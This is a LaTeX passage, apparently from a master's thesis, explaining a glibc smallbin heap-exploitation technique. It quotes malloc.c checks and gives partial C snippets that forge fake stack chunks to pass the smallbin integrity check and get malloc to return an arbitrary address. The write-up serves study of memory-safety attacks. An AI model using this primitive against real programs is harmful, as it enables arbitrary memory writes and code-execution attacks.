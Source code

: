 \documentclass{masterthesis}
\newcommand*\sbs{small bins}
\newcommand*\mallocc{\lstinline{malloc}\xspace}
\begin{document}
This attack abuses the vulnerability inside \sbs{} to modify memory in any location. If we check the \mallocc{} source code, we can see there is a check for small chunk request, so, if the requested chunk fits inside the \sbs{} range, the heap manager use it.

\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}

In the following we have below code. \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}

\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
	 errstr = "malloc(): smallbin double linked list corrupted";
	 goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}

AS you can see if we have control over the victim bck pointer and bypass the security check, libc return our fake chunk on the next smallbin allocation. In other words, we can return a chunk to any address. Now we explain it in a real sample:

\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}

At first, we allocate a small chunk, then calculate the actual address of the chunk by subtracting header size from the data section address like always.

\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
\end{lstlisting}
Now we forge a fake chunk, point the \lstinline{bck} pointer of \lstinline{buffer_1} to the victim, the fwd pointer of \lstinline{buffer_1} to \lstinline{buffer_2}, also, the bck pointer of \lstinline{buffer_2} to \lstinline{buffer_1}. In this way, we can bypass the \sbs{} security check.
\begin{lstlisting}[language=c,frame=tlrb]
void *p5 = malloc(1000);
free((void*)victim);
void *p2 = malloc(1200);
\end{lstlisting}
\end{document}
